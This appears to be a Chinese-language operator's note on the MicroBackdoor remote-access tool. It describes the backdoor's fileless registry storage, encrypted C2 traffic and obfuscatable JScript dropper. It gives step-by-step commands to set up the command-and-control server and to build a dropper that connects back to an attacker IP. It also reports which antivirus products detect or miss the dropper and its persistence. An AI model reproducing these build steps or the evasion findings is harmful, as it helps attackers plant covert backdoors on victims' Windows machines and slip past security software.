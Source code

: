 https://github.com/Cr4sh/MicroBackdoor

beacon端特点：  
1、支持32-bit and 64-bit versions of Windows XP, Vista, 7, 8, 8.1, 10, Server 2003, Server 2003 R2, Server 2008, Server 2008 R2, Server 2012, Server 2012 R2, Server 2016 and Server 2019 of any editions, languages and service packs  
2、dropper使用Microsoft JScript，一旦被查杀，很容易混淆  
3、会检测系统的代理设置（SOCKS 4, SOCKS 5 or HTTP）
4、流量使用RSA加密  
5、文件不落地，存储到注册表值中

服务端：  
1、使用Python编写，跨平台  
2、虚拟shell，查看、上传、下载文件  
3、提供Python API和命令行接口可批量执行命令和脚本

安装：
```
#创建服务端
#使用Ubuntu18.04
#root用户登录
apt install build-essential swig libssl-dev python python-dev python-setuptools python-pip
pip install m2crypto pycrypto redis cherrypy
apt install redis-server
systemctl status redis-server
systemctl enable redis-server
./server.py --keys
./server.py
```
```
#创建客户端
pip install pefile
./client_builder.py client.dll [server_IP] [server_PORT]
./client_encoder.py dll_inject_script client.dll > dropper.js
```

经过测试发现：  
1、dropper可以静态免杀  
2、但在执行时会被Defender、360查杀（火绒、腾讯没有查杀），如下图  
![image](./pic/dynamic.png)  
3、持久化时会被Defender、360查杀（火绒、腾讯没有查杀），如下图  
![image](./pic/persistent.png)  

生成的dropper在xp下运行时，直接双击会没有反应，需要生成debug版本，且在命令行下执行cscript.exe .\droppper.js才能收到反连，但使用收到的反连执行命令会报错“500 internal error”
